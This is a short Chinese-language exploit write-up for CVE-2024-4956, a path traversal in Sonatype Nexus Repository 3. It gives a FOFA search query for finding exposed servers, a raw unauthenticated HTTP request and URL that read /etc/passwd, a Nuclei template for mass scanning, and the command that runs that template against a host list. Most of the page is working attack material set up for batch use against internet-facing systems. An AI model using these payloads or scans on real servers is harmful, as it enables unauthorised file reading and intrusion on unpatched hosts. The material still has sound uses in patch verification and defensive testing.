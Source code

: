 **漏洞名称**

Sonatype Nexus Repository 3目录遍历与文件读取漏洞

**漏洞影响**

Sonatype Nexus Repository 3

**漏洞描述**

Sonatype Nexus Repository 是一个开源的仓库管理系统，在安装、配置、使用简单的基础上提供了更加丰富的功能。2024年5月，Sonatype官方发布安全公告，披露了 CVE-2024-4956 Nexus Repository 3 目录遍历与文件读取漏洞。攻击者可在无需登陆的情况下构造恶意请求读取遍历系统上的文件。

**FOFA搜索语句**

```
title="Nexus Repository Manager"
```

**漏洞复现**

```yaml
GET /%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:21.0) Gecko/20100101 Firefox/21.0
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip
```

使用浏览器访问靶场

```yaml
http://x.x.x.x/%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
```

**批量漏洞扫描 poc**

```yaml

id: CVE-2024-4956

info:
  name: Sonatype Nexus Repository Manager 3 - Local File Inclusion
  author: ritikchaddha
  severity: high
  description: |
    Path Traversal in Sonatype Nexus Repository 3 allows an unauthenticated attacker to read system files. Fixed in version 3.68.1.
  reference:
    - https://x.com/phithon_xg/status/1793517567560335428?s=46&t=GMMfJwV8rhJHdcj2TUympg
    - https://nvd.nist.gov/vuln/detail/CVE-2024-4956
    - https://support.sonatype.com/hc/en-us/articles/29416509323923
    - https://github.com/fkie-cad/nvd-json-data-feeds
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
    cvss-score: 7.5
    cve-id: CVE-2024-4956
    cwe-id: CWE-22
    epss-score: 0.00044
    epss-percentile: 0.10128
    cpe: cpe:2.3:a:sonatype:nexus:*:*:*:*:*:*:*:*
  metadata:
    verified: true
    max-request: 1
    vendor: sonatype
    product: nexus
    fofa-query: title="Nexus Repository Manager"
  tags: cve,cve2024,nexus,lfi

http:
  - method: GET
    path:
      - "{{BaseURL}}/%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd"

    matchers:
      - type: dsl
        dsl:
          - regex('root:.*:0:0:', body)
          - contains(header, "application/octet-stream")
          - status_code == 200
        condition: and
# digest: 4b0a00483046022100d04cb6a8b4f715247f0046035995368961f1e380721d9a061a68fbcdf728ad70022100c807dbccfb625a6ee33ef8333433686a5a437f066cc9ecdd6c8a5aac4923bed9:922c64590222798bb761d5b6d8e72950
```

```
nuclei.exe -t CVE-2024-4956.yaml -l 2.txt
```


